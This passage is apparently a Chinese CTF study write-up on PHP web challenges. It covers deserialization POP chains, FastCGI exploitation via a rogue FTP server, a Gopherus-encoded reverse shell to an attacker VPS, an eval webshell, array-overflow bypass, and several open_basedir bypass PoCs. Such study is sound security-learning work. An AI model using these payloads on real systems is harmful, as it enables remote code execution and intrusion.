然后再攻击机上执行以下python脚本搭建一个恶意的 ftp 服务器：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 import socket'0.0.0.0' , 23 ))1 )b'220 welcome\n' )b'331 Please specify the password.\n' )b'230 Login successful.\n' )b'200 Switching to Binary mode.\n' )b'550 Could not get the file size.\n' )b'150 ok\n' )b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n' ) b'150 Permission denied.\n' )b'221 Goodbye.\n' )
并在 vps 上开启一个 nc 监听，用于接收反弹的shell，最后构造 url 发送 payload 即可：

成功反弹shell
0x04 题目实战
陇原战"疫"-eaaasyphp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 <?phpclass Check {class Esle {class Hint {"no hint" ;if (!$this->hint){"phpinfo" ;class Bunny {if (Check::$str2) {if (!$this->data){'data' ];else {"Error" );class Welcome {return "Welcome" . $this->username;class Bypass {if (Check::$str1) {else {"Error" );if (isset($_GET['code' ])) {'code' ]);else {
这里浏览一遍会发现，敏感函数似乎是file_put_contents($this->filename, $this->data);这里的两个参数都可控，那么接下来就是分析链子了。
不难分析出以下链子：Bypass.__destruct()->Wecolme.__invoke()->Bunny.__toString()
但这个Hint函数，需要绕过wakeup，首先看一下php版本信息，如下图为7.2.20，那这里修改属性值为其他整数是无法绕过的，看了几个wp发现修改为负数即可

并且这里事后诸葛亮一下，这里尝试写入文件会发现不成功，那我们就联想到了题目给的hint：phpinfo，那我们看看phpinfo其中有什么信息
1 O:4 :"Hint" :0 :{}->O:4 :"Hint" :-1 :{}

成功之后我们看到其中开启了FastCGI服务，那与我们刚刚学的对上了，而且恰好又有file_put_contents($this->filename, $this->data);的存在，这思路很明显了，接下来构造完整pop链子
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 <?php class Check public static $str1 = false ;public static $str2 = false ;class Esle public function __wakeup ( {Check ::$str1 = true ;class Hint class Bunny public $data ;public $filename ;class Welcome public $username ;class Bypass public $str4 ;public $hybcx ;$pop1 = new Bypass ();$pop1 ->str4 = new Welcome ();$pop1 ->hybcx = new Esle ();$pop1 ->str4->username = new Bunny ();$pop1 ->str4->username->filename = 'ftp://aaa@ip:23/123' ;echo urlencode (serialize ($pop1 ));?>

这里可以确定其/var/www/html/index.php是存在的，直接利用gopherus打
1 bash -c "bash -i >& /dev/tcp/ip/8888 0>&1"
取_后面的
1 %01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/ip/8888%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
利用如下恶意文件在我们vps开启ftp服务
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 import socket'0.0.0.0' , 23 ))1 )b'220 welcome\n' )b'331 Please specify the password.\n' )b'230 Login successful.\n' )b'200 Switching to Binary mode.\n' )b'550 Could not get the file size.\n' )b'150 ok\n' )b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n' ) b'150 Permission denied.\n' )b'221 Goodbye.\n' )
这里由于在我们真正想让其请求之前只传给过url，那只需要编码一次即可，最后在vps上开启ftp服务，还有监听端口（注意开放端口），接着向url传入如下：
注意这里的data我在url进行get传参了，如下图成功拿到flag


蓝帽杯_2021_One_Pointer_PHP
发现这道题考点还是很多的，我几乎都没见过。。。。
首先题目给了两个文件
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php include "user.php" ;if ($user =unserialize ($_COOKIE ["data" ])){$count [++$user ->count]=1 ;if ($count []=1 ){$user ->count+=1 ;setcookie ("data" ,serialize ($user ));else {eval ($_GET ["backdoor" ]);else {$user =new User ;$user ->count=1 ;setcookie ("data" ,serialize ($user ));?>
1 2 3 4 5 6 <?php class User public $count ;?>
这里说只有$count[]=1不成立的时候我们才能进行eval命令执行，但这里明显是赋值为1，肯定恒为true，所以不知道如何绕过了。看了wp发现是利用PHP数组溢出，具体可以参考：PHP数组的key溢出问题 --但这个原理分析的我认为和如何绕过并无太大关系，随后继续翻文章终于找到一个完美的解释：
我们翻阅官方文档可以发现：PHP数组 其对数组的键值做了以下解释：
1 2 key 为可选项。如果未指定，PHP 将自动使用之前用过的最大 integer 键名加上 1 作为新的键名。
进行一个简单测试，如下图可以看到键值在逐渐自增，那这样的话就很容易联系到PHP数组溢出了

在上述文章中也说到：
1 我们可以看到当key值比较小是没有问题，当key值很大时输出的值溢出了，临界点是9223372036854775807这个数字。
也就是大于这个临界点的话，就会报错，我们再简单测试一番，如下图可以看到此时爆出警告，且最终打印出来的为NULL，这意味着我们可以绕过了

但由于下图中这一步的自增，我们需要给count赋值为临界点-1

1 2 3 4 5 6 7 8 9 <?php class User public $count ;$pop = new User ();$pop ->count = 9223372036854775806 ;echo urlencode (serialize ($pop ));?>
将得到的数值传给cookie的data，同时backdoor读取phpinfo
如上图，成功绕过，且我们也看到了熟悉的FastCGI服务，不过我们还是跟着做题思路走，毕竟我们这是事后诸葛亮。那这里我们成功绕过，之后肯定想着利用eval进行命令执行，但在此之前我们需要得知其禁用了哪些函数

可以看到你用的很多，但是可以发现没有禁用file_get_content/put等文件读取函数这说明我们可以尝试用put进行木马写入
1 ?backdoor=file_put_content ('shell.php' , '<?php @eval($_POST[1]);?>' );
这里面我写入之后也页面测试的好好的，但蚁剑就是死活连不上，结果浪费了两个小时，发现tm又是校园网的原因。。。。。。。。真搞心态！最后换了热点发现成功，随后看了根目录等等，但都发现文件里面没有东西

那我们在研究一下是否phpinfo漏掉了什么东西，如下图这里面含有open_basedir，简单了解一下该函数的作用

在p神的总结下，那就是：open_basedir是PHP设置中为了防御PHP跨目录进行文件（目录）读写的方法，所有PHP中有关文件的读、写的函数都会经过它的检查，Open_basedir实际上是一些目录的集合，在定义了open_basedir以后，php可以读写的文件、目录都将被限制在这些目录中。–也就是对应这道题，我们只能读写/var/www/html目录中的文件。
1 设置open_basedir的方法，在linux下，不同的目录由“:”分割，如“/var/www/:/tmp/”；在Windows下不同目录由“;”分割，如“c:/www;c:/windows/temp”。
这里p神也说了绕过open_basedir之后几乎是用来进行目录的列举与遍历，而并非具体的文件读写，因为在php5.3以后很少有能够绕过open_basedir读写文件的方法。懒得再开文章了，索性就在这里持续学习了。这里我们根据p神的文章来学习一波如何绕过open_basedir。
open_basedir绕过
DirectoryIterator + Glob 列举目录
DirectoryIterator是PHP 5之后添加的一个类，为用户提供一个简单的查看目录的接口。而glob：数据流包装器是从PHP 5.3.0开始有效的，用来查找匹配的文件路径。
上payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <?php printf ('<b>open_basedir : %s </b><br />' , ini_get ('open_basedir' ));$file_list = array ();$it = new DirectoryIterator ("glob:///*" );foreach ($it as $f ) {$file_list [] = $f ->__toString ();$it = new DirectoryIterator ("glob:///.*" );foreach ($it as $f ) {$file_list [] = $f ->__toString ();sort ($file_list );foreach ($file_list as $f ){echo "{$f} <br/>" ;?>
这里跟着GPT学习一波上述代码的逻辑，这里懒得配环境了，就直接借用p神的了~~~
执行我们可以发现，open_basedir为/usr/share/nginx/www/:/tmp/，但我们成功列举了/根目录下的所有文件：
不过这里的测试是在linux环境下才可以的，并且还有一个缺点就是要求php版本为5.3以上，但p神又说5.5/5.6可能有修复，但还没看到。。。这里先不管了
realpath列举目录
这个realpath函数是php中将一个路径规范化成为绝对路径的方法，它可以去掉多余的…/或./等跳转字符，能将相对路径转换成绝对路径。
在开启了open_basedir以后，这个函数有个特点：当我们传入的路径是一个不存在的文件（目录）时，它将返回false；当我们传入一个不在open_basedir里的文件（目录），但该文件（目录）是存在的话，他将抛出错误（File is not within the allowed path(s)）。
那这很明显了，我们只需要判断报错信息，就可以得到该文件是否存在了，也就是暴力破解，这个错误信息用err_handle()函数捕捉：当猜解某个存在的文件时，会因抛出错误而进入err_handle()，当猜解某个不存在的文件时，将不会进入err_handle()。
但缺点就是效率太低，上千万次才可以跑完，这肯定不行的，但p神这时候就想到了windows下的通配符：<、>
这里就懵逼了，windows下通配符不是?、*吗，这两个符号是什么鬼，随后看到评论区p神让我们看看这个漏洞
wooyun-2014-071540
上述标记处他打错了，这里说在php+windows+iis环境下这两个符号可以等价于通配符，嗷吼，怪不得，payload如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <?php ini_set ('open_basedir' , dirname (__FILE__ ));printf ("<b>open_basedir: %s</b><br />" , ini_get ('open_basedir' ));set_error_handler ('isexists' );$dir = 'd:/test/' ;$file = '' ;$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_' ;for ($i =0 ; $i < strlen ($chars ); $i ++) { $file = $dir . $chars [$i ] . '<><' ;realpath ($file );function isexists ($errno , $errstr $regexp = '/File\((.*)\) is not within/' ;preg_match ($regexp , $errstr , $matches );if (isset ($matches [1 ])) {printf ("%s <br/>" , $matches [1 ]);?>
执行可以看到：
Open_basedir为c:\wamp\www，但我们列举出了d:/test/目录下的文件，不过只能列举出首字母不同的文件，首字母相同的话，就需要添加第二个字符再接着枚举、第三个字符etc…
这个方法好处是windows下php所有版本通用，当然坏处就是只有windows下才能使用通配符，如果是linux下就只能暴力猜解了。
SplFileInfo::getRealPath列举目录
这时p神又在想，如果我们的realpath被ban了该如何，随后他在PHP5.1.2之后找到了一个新引入的类，SplFileInfo，其提供一个对文件进行操作的接口，其中有一个getRealPath方法与realpath很像，都是获取绝对路径用的。但区别点在于这个getRealPath方法是完全无视open_basedir存在的，当我们传入一个不存在的路径时，会返回false，当该路径存在时，他会直接返回正常的绝对路径，接下来看p神的poc：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <?php ini_set ('open_basedir' , dirname (__FILE__ ));printf ("<b>open_basedir: %s</b><br />" , ini_get ('open_basedir' ));$basedir = 'D:/test/' ;$arr = array ();$chars = 'abcdefghijklmnopqrstuvwxyz0123456789' ;for ($i =0 ; $i < strlen ($chars ); $i ++) { $info = new SplFileInfo ($basedir . $chars [$i ] . '<><' );$re = $info ->getRealPath ();if ($re ) {dump ($re );function dump ($s echo $s . '<br/>' ;ob_flush ();flush ();?>
这里附上对ob_flush()与flush()的解释：
1 这个 dump 函数可能主要用于调试目的，当开发者想要得到实时输出并即时观察脚本执行信息时。在脚本执行期间，输出通常会缓存起来，直到达到一定量或脚本执行完毕后一次性发送到浏览器。通过使用 ob_flush() 和 flush()，开发者可以强制立即输出数据，这对于监视长时间运行的脚本非常有用。

同样可以列举，这个方法有个特点，不管是否开启open_basedir都是可以枚举任意目录的。而上一个方法（realpath）只有在开启open_basedir且在open_basedir外的时候才会报错，才能列举目录。当然，没有开启open_basedir的时候也不需要这样列举目录了。
GD库imageftbbox/imagefttext列举目录
GD库一般是PHP必备的拓展库之一，这里我们看p神的分析：
1 我拿imageftbbox举个例子，这个函数第三个参数是字体的路径。我发现当这个参数在open_basedir外的时候，当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。
这很清晰了，特点类似于realpath，看poc：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 <?php ini_set ('open_basedir' , dirname (__FILE__ ));printf ("<b>open_basedir: %s</b><br />" , ini_get ('open_basedir' ));set_error_handler ('isexists' );$dir = 'd:/test/' ;$file = '' ;$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_' ;for ($i =0 ; $i < strlen ($chars ); $i ++) { $file = $dir . $chars [$i ] . '<><' ;imageftbbox (100 , 100 , $file , 'aaa' );function isexists ($errno , $errstr global $file ;if (stripos ($errstr , 'Invalid font filename' ) === FALSE ) {printf ("%s<br/>" , $file );?>
我们可以看到成功爆出，但却只能爆出一个字符，但注意的是这里的特殊通配符是起了作用的，只不过在最终输出的时候通配符并没有转换为相应的字符。因此这种方法比realpath麻烦的点在于，需要一位一位爆破。
bindtextdomain暴力猜解目录
先看p神的分析：
bindtextdomain是php下绑定domain到某个目录的函数。具体这个domain是什么我也没具体用过，只是在一些l10n应用中可能用到的方法（相关函数textdomain、gettext、setlocale，说明：http://php.net/manual/en/function.gettext.php）
Bindtextdomain函数在环境支持Gettext Functions的时候才能使用，而我的windows环境下是没有bindtextdomain函数的，我的linux环境是默认存在这个函数。
这个函数的特点在于第二个参数directory，如果文件路径存在则返回具体的路径，不存在则返回false，poc如下
1 2 3 4 5 <?php printf ('<b>open_basedir: %s</b><br />' , ini_get ('open_basedir' ));$re = bindtextdomain ('xxx' , $_GET ['dir' ]);var_dump ($re );?>
这里可以看到依旧可以绕过open_basedir，缺点在于只能在linux环境下才可以，但在linux下又不能使用通配符来猜解目录，所以这是一个没有办法的办法。。。。
这里附上linux下又不能使用通配符来猜解目录的原因：
1 2 3 在Linux系统中，通过正常的shell环境中使用通配符（如 * 和 ?）来进行文件匹配和简单的模式匹配通常是可行的。然而，通配符通常不用于“猜解”（或称枚举）目录，因为shell通配符的匹配规则并不支持猜解目录结构中未知的部分。
1 ?backdoor=file_put_contents ('basedir.php' , '<?php printf(\'<b>open_basedir : %s </b><br />\', ini_get(\'open_basedir\'));$file_list = array();$it = new DirectoryIterator("glob:///*");foreach ($it as $f) {$file_list[] = $f->__toString();}$it = new DirectoryIterator("glob:///.*");foreach($it as $f) {$file_list[] = $f->__toString();}sort($file_list);foreach ($file_list as $f) {echo "{$f}<br/>";}?>' );
这里我们可以通过p神的第一个glob协议的办法来绕过，这里我是在靶机页面传入的poc有点麻烦还需要注意符号的转义，大家可以蚁剑连接在html下写入文件即可，因此html下是可以进行读写的。

如上图看到了根目录下存在flag，那接下来就是读取了，但我们如何绕过disable_functions呢，又是一个没学过的姿势。。。。发现这个题目没学过的知识还是很多的，我依旧需要另起文章去学习，那接下来我们先复现完整这个题目再说，有点走远了。。。。
总的来说我们想要读取文件的话，就是需要对open_basedir进行修改，但如何修改呢，这里我直接上payload，原理会在其他文章学一下（不过看了看原理，是PHP底层的。。。）
1 mkdir ('sub' );chdir ('sub' );ini_set ('open_basedir' ,'..' );chdir ('..' );chdir ('..' );chdir ('..' );chdir ('..' );ini_set ('open_basedir' ,'/' );var_dump (scandir ('/' ));
通过如上payload我们可以重新设置open_basedir对其进行覆盖

如图可以列举出目录，接下来依旧是读取，那就是file_get_contents函数了，但我们已经测试过这是行不通的，看了wp说是这里是权限不够，需要提权，但如何提权呢（我也不知道~~~），这里师傅们说可以通过加载恶意so文件，但如何加载呢，这里就需要回到最初我们看到的FastCGI了，既然开启了FastCGI那我们就可以通过开启恶意ftp服务，让靶机来访问我们的服务，最终将恶意so文件上传到靶机。
1 mkdir ('sub' );chdir ('sub' );ini_set ('open_basedir' ,'..' );chdir ('..' );chdir ('..' );chdir ('..' );chdir ('..' );ini_set ('open_basedir' ,'/' );var_dump (file_get_contents ('/usr/local/etc/php/php.ini' ));
如上图这里应该是说明可以进行加载.so文件，那我们可以构造恶意的.so文件进去，接下来就是读取关于FastCGI服务的一些配置信息了/etc/nginx

读取nginx.conf，发现如下两个可以路径，我们先看看sites
成功在/etc/nginx/sites-enabled/default读取到详细信息
